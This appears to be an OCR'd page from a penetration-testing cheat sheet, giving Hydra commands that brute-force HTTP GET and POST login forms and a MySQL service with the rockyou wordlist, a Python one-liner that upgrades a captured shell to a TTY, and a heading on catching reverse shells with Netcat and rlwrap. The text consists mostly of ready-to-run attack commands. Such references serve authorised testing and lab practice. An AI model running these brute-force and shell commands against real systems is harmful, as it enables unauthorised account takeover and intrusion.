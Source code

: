 
\-\-\- 




### HTTP Get Request 


hydra 192\.168\.0\.1 \-V \-L /usr/share/wordlists/user\.txt \-P /usr/share/wordlists/rockyou\.txt http\-get\-form "/login/:username=^USER^\&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" \-t 15


\-\-\- 




### HTTP Post Request 


Check request in BURP to see Post parameters\. \-l or \-L has to be set, even if there is no user to login with\!\. Use https\-post\-forminstead of http\-post\-formfor HTTPS sites\.

hydra \-l admin \-P /usr/share/wordlists/rockyou\.txt 192\.168\.0\.1 http\-post\-form "/webapp/login\.php:username=^USER^\&password=^PASS^:Invalid" \-t 15


\-\-\- 




### MYSQL 


Change MYDATABASENAME\. Default databasename is mysql\.

hydra \-L /usr/share/seclists/Usernames/top\-usernames\-shortlist\.txt \-P /usr/share/wordlists/rockyou\.txt \-vv  mysql://192\.168\.0\.1:3306/MYDATABASENAME \-t 15



## Upgrade Shell (TTY) 




\-\-\- 


python \-c 'import pty;pty\.spawn\("/bin/bash"\);' 


## Catching Reverse Shells (Netcat) 




\-\-\- 


rlwrap enables the usage of arrow keys in your shell\. [https://github.com/hanslub42/rlwrap](#https://github.com/hanslub42/rlwrap)
